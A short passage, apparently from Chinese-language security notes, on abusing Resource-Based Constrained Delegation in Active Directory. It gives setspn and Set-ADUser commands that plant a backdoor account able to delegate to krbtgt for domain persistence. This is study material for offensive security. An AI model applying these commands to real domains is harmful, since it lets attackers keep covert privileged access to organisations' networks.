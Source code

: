 - **Domain Admins**(域管理员)
- **mS-DS-CreatorSID**(将该机器加入域的账户)
- **NT AUTHORITY\SELF**(机器账户本身)

RBCD的利用条件：

- 能修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限
- 一个具有SPN的账户的TGT

#### 利用（后门）

首先注册资源约束服务

```sh
setspn -U -A ziyuanyueshu_test/win71 ziyuanyueshu
```

![image-20231011154951891](image/image-20231011154951891.png)

需要域管理员权限，修改krbtgt或是域控的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性，加入已知后门账户的SID。**`Domain Admins`**
使用ActiveDirectory模块，域控2012及以上默认安装。

```sh
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ziyuanyueshu
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```

